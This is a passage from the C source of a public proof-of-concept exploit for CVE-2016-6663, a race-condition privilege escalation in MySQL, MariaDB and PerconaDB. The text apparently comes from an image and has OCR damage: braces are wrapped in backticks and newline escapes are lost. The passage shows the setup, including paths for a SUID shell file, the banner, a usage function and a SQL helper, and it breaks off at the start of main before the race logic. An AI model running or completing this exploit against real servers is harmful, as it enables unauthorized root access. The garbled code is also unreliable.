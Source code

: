 ```
#include &lt;pwd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/inotify.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;time.h&gt;
#include &lt;unistd.h&gt;
#define EXP_PATH          "/tmp/mysql_privesc_exploit"
#define EXP_DIRN          "mysql_privesc_exploit"
#define MYSQL_TAB_FILE    EXP_PATH "/exploit_table.MYD"
#define MYSQL_TEMP_FILE   EXP_PATH "/exploit_table.TMD"
#define SUID_SHELL     EXP_PATH "/mysql_suid_shell.MYD"
#define MAX_DELAY 1000    // can be used in the race to adjust the timing if necessary
MYSQL *conn;  // DB handles
MYSQL_RES *res;
MYSQL_ROW row;
unsigned long cnt;
void intro() `{`
printf( 
        "33[94mn"
        "MySQL/PerconaDB/MariaDB - Privilege Escalation / Race Condition PoC Exploitn"
        "mysql-privesc-race.c (ver. 1.0)nn"
        "CVE-2016-6663 / OCVE-2016-5616nn"
        "For testing purposes only. Do no harm.nn"
"Discovered/Coded by:nn"
"Dawid Golunski n"
"http://legalhackers.com"
        "33[0mnn");
`}`
void usage(char *argv0) `{`
    intro();
    printf("Usage:nn%s user pass db_host databasenn", argv0);
`}`
void mysql_cmd(char *sql_cmd, int silent) `{`
    
    if (!silent) `{`
    printf("%s n", sql_cmd);
    `}`
    if (mysql_query(conn, sql_cmd)) `{`
        fprintf(stderr, "%sn", mysql_error(conn));
        exit(1);
    `}`
    res = mysql_store_result(conn);
    if (res&gt;0) mysql_free_result(res);
`}`
int main(int argc,char **argv)
`{`
    int randomnum = 0;
    int io_notified = 0;
    int myd_handle;
    int wpid;
    int is_shell_suid=0;
    pid_t pid;
    int status;
    struct stat st;
    /* io notify */
    int fd;
    int ret;
    char buf[4096] __attribute__((aligned(8)));
```